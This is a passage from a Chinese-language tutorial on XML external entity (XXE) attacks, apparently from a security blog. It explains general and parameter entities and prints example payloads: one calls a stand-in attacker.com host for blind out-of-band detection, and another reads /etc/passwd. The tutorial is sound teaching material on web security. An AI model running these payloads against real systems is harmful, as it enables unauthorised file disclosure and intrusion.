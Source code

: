 URL 可以使用 file:// 协议，因此也可以从文件加载外部实体。例如：

```plain
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```

XML 外部实体是引发 XML 外部实体攻击的主要手段。

### [什么是 XML 参数实体？](#toc_xml_6)

有时，由于应用程序的某些输入验证或正在使用的 XML 解析器的某些加强，导致使用常规实体的 XXE 攻击会被阻止。在这种情况下，您可以改用 XML 参数实体。XML 参数实体是一种特殊的 XML 实体，只能在 DTD 中的其他地方引用。

声明 XML 参数实体有两个明显的特征：

首先，实体名称前使用是的百分号：

```plain
<!ENTITY % myparameterentity "my parameter entity value" >
```

其次，实体参数在引用时使用的是%符号而不是&符号：

```plain
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
```

这意味着可以通过 XML 参数实体使用带外检测来测试 blind XXE，如下所示：

```plain
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
```

这个 XXE 的 payload 声明了一个名为 xxe 的 XML 参数实体，然后在 DTD 中使用该实体。这将导致对攻击者的域进行 DNS 查找和 HTTP 请求来判断攻击是否成功。

## [主要利用方式](#toc__1)

### [读文件](#toc__2)

现在已不同方式读取`/etc/passwd`文件，如果是 Windows 主机可以读取：C:\\windows\\system32\\drivers\\etc\\hosts 文件

第一：直接读取，也可以通过 file 协议进行读取

```plain
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```

[![img](assets/1698894099-82a7e33bac03e06944ea536287b1e5f5.png)](https://storage.tttang.com/media/attachment/2022/11/14/94e0ae3b-85f7-489e-bdc9-c4a9da38e190.png)
